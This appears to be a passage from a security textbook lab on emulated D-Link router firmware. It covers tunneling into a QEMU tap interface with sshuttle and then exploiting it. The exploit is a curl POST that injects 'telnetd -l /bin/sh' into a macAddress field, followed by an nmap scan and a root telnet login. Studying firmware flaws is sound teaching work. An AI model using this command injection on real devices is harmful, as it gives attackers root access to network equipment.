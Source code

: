 At this point, the firmware should be running on the preceding IP as a tap device. You should also be able to connect to this virtual interface from the machine on which you are running QEMU. This is fine if you are working from that machine with a desktop environment (GUI) running. However, in our case, because we are running the QEMU in a virtual machine with no desktop environment running, we will need to get creative if we want to play with the interface from another host.

```
NOTE It is important to be running in NAT mode on your virtual machine
in order for the following instructions to work.
```

**Tunneling**

To do this, we can use the Python sshuttle5 program to tunnel all network traffic through SSH to the virtual host. In this manner, we can access the remote tap device, as if we were local to the virtual machine. Because sshuttle runs in Python, it works on Linux, macOS, and Windows.

```
sudo pip install sshuttle
```

Now launch it:

```
sshuttle --dns -r username@<ip address> -N
```

Now, from the system that is running sshuttle, open a web browser and try to connect to that IP.

**Exploiting Firmware**

```
# nmap
nmap <ip address>

# Injecting Command to start telnet server
curl -L --max-redir 0 -m 5 -s -f -X POST -d "macAddress=000000000000;telnetd -l /bin/sh;&reginfo=1&writeData=Submit" http://<ip address>/boardDataWW.php

# telnet
telnet <ip address>
id
```

From the previous output, you should note that we have injected a command to start the telnet server. The “telnet –l /bin/sh” argument starts the telnet server on the default port and binds it to the “/bin/sh” shell. The nmap scan shows that port 23 is now open. After connecting to telnet, you will note that the user is root. Although this has been done on emulated firmware, the same can be accomplished on the actual firmware. At this point, the attacker has root access on the device and can potentially use the device as a launching point for other attacks on the network.

## REFERENCES

* D-Link Vulnerability: [www.kb.cert.org/vuls/id/184100](https://www.kb.cert.org/vuls/id/184100)
* Firmadyne: [www.github.com/firmadyne/firmadyne](https://www.github.com/firmadyne/firmadyne)
* Dominic Chen CVE: [www.packetstormsecurity.com/files/135956/D-Link-Netgear-FIRMADYNE-Command-Injection-Buffer-Overflow.html](https://www.packetstormsecurity.com/files/135956/D-Link-Netgear-FIRMADYNE-Command-Injection-Buffer-Overflow.html)
* Firmware Mod Kit: [https://github.com/rampageX/firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit)
